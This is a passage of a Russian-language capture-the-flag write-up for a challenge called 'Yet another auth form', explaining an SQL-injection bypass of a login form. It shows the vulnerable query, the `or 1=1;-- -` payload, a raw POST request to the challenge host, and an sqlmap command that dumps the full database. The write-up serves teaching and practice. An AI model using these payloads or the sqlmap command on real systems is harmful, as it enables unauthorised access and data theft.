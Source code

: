 To stop container
```
docker ps -a  # get ID
docker stop ID
```

---

## Yet another auth form
### Author
https://t.me/cherepawwka
### Описание на русском
Думаю, вы поняли ;)

### Описание на английском
I guess, you get the point ;)

### Разбор на русском
Сложное задание на обход механизма аутентификации, в ходе которого предстоит узнать структуру базы данных и построить запрос, который учитывает эту структуру и ломает логику работы аутентификации.
Механизм аутентифкации работает следующим образом:
1. При вводе логина и пароля в форме осуществляется POST-запрос к приложению, в ходе которого пароль преобразуется в md5 хэш.
2. После этого осуществляется запрос к базе данных для поиска пользователя с таким именем и хэшем: `SELECT * FROM users WHERE username='{username}' and  hash='{printable_hash}'"`
3. Введена дополнительная принудительная проверка, в ходе которой извлечённый из базы данных хэш сверяется с хэшем пароля, переданного в форме.

*Примечание: изначально нагрузка типа `or 1=1;-- -` не должна была работать. Механизм аутентификации перед соревнованиями был изменён и нагрузка начала работать, чтобы сделать задание чуть более прозрачным для участников*.

Первым делом проверим, какой запрос уходит на бэкенд при попытке аутентификации:
```
POST /authbypass HTTP/1.1
Host: 195.200.18.108:10800
Content-Type: application/x-www-form-urlencoded
Content-Length: 25

username=123&password=123
```
Мы видим 2 поля, и если в любое их них вставить кавычку, то получим ошибку 500, что говорит о наличии SQL-инъекции.
![image](https://github.com/user-attachments/assets/5d9c4bb2-5e3b-4f7c-98f8-96b73e5d3f6d)
Аналогично прошлому заданию, можем собственноручно узнать, какая БД работает на бэкенде. В данном случае это SQLite.

В этот раз воспользуемся SQLMap для извлечения данных:
```
sqlmap -u http://195.200.18.108:10800/authbypass --data='username=*&password=1' -batch --dbms=sqlite --all
```
![image](https://github.com/user-attachments/assets/baffe562-f091-43d4-8897-1dd00164a359)
